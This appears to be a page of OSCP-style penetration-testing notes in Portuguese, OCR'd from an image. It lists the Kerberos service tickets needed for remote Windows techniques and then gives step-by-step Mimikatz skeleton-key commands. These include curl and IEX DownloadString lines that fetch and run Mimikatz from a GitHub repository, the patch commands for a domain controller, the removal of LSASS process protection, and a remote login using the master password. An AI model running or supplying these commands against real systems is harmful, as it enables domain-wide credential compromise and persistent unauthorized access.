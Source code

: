 SERVIÇOS:
- WMI INTERACTIONS - HOST, RPCSS
- POWERSHELL REMOTING - HOST, HTTP, WSMAN, RPCSS     DEPENDE: WSMAN,RPCSS
- WINRM - HOST,HTTP *** EM ALGUNS CASOIS PODE PEDIR SOMENTE WINRM
- SCHEDULED TASKS - HOST
- WINDOWS FILE SHARE  - CIFS
- PSEXEC - CIFS
- LDAP OPERATIONS - LDAP
- LDAP DCSYNC - LDAP
- WINDOWS REMOTE SERVER ADMINISTRAION TOOLS - RPCSS, LDAP, CIFS
- GOLDEN TICKET - krbtgt
## SKELETON KEY MIMIKATZ
##### SKELETON KEY MIMIKATZ - LOAD REQUIREMENTS
```
curl https://github.com/n0ts0cial/oscp/raw/main/mimikatz_trunk.zip -Outfile mimikatz_trunk.zip
expand-archive -path ".\mimikatz_trunk.zip" -destinationpath ".\"
cd x64
.\mimikatz.exe
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/x64/mimikatz.exe -Outfile mimikatz.exe
.\mimikatz.exe
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1 -Outfile Invoke-Mimikatz.ps1
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz
```
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1")
Invoke-Mimikatz
```
##### SKELETON KEY MIMIKATZ - EXECUTAR PATCH NO DC(COMO ADMIN):
```
privilege::debug
misc::skeleton
```
ACESSAR REMOTAMENTE: (Senha: mimikatz)
```
enter-pssession -computername tech-dc01 -credential tech\administrator
```
##### SKELETON KEY MIMIKATZ - EXECUTAR PATCH NO DC(COMO ADMIN) SE O LSA.EXE ESTIVER PROTEGIDO:
```
curl https://github.com/n0ts0cial/oscp/raw/main/mimikatz_trunk.zip -Outfile mimikatz_trunk.zip
expand-archive -path ".\mimikatz_trunk.zip" -destinationpath ".\"
cd x64
.\mimikatz.exe
```
```
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
!-
```
ACESSAR REMOTAMENTE: (Senha: mimikatz)
```
enter-pssession -computername tech-dc01 -credential tech\administrator
```
## DSRM MIMIKATZ (CONTA DE ADMINISTRADOR LOCAL DO DOMAIN CONTROLLER)